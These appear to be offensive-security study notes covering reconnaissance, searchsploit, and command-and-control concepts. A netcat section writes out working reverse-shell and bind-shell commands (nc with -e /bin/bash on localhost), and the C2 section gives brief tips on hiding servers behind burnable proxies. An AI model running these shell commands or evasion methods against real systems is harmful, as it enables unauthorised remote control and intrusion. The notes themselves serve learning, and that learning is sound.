 Password Guessing
	: the systematic method of guessing passwords to obtain access into a target.
#### Scanning
Internal Reconnaissance
	inside the network we will perform host enumeration and process enumeration as well as find information about the users on the network.
Vulnerability Scanning
	: scanners will attempt to log into systems using default passwords or other credentials in order to establish a more detailed picture of the network infrastructure.
Searchsploit
```bash
searchsploit -h
	#examples
	#options
searchsploit ftp remote file    #and/or keyword search
searchsploit -t oracle windows  #search by title
searchsploit linux kernel 4.4 --exclude="(PoC)/DCCP/"
searchsploit mysql 6.0 -w       #show website results
```
Exploitation with Shells
	Bind Shell
		remote host opens a port for the current host to connect to. The current, local host then connects to that remote host's port.
	Reverse Shell
		remote host connects back to a port on the local host.
Netcat
```bash
"REVERSE SHELL"
nc -h
#attacker
nc -lvp 4445
#victim, in another terminal
nc 127.0.0.1 4445 -e /bin/bash
#attacker
whoami

------------------------------------
"BIND SHELL"
#victim
nc -lvp 4445 -e /bin/bash
#attacker, in another terminal
nc 127.0.0.1 4445
whoami

```
#### Post Exoploitation
Command and Control (C2)
	: a framework that consists of tools and techniques that attackers use to amintain communication with compromised devices following initial exploitation.
		_written in variety of languages and have different targetting operating systems and protocols._
	C2 Architecture
		C2 Server
			: attacker's server, where the attacker communicates with the compromised machines.
		C2 Agent
			: payload that is run on compromised machine in order to open up a connection back to the C2 server.
	Concealing Methods
		1. Redirection through proxies
			Using burnable proxy servers will ensure the C2 server's IP isnt blocked by the target network and proxy servers can be spun up quickly to continue penetration.
		2. Utilizing multiple channels
			Using multiple protocols which are well known and widely used and/or not blocked by firewalls such as https/dns/http/tcp(arbitrary port/smb
		3. Utilizing multiple C2 frameworks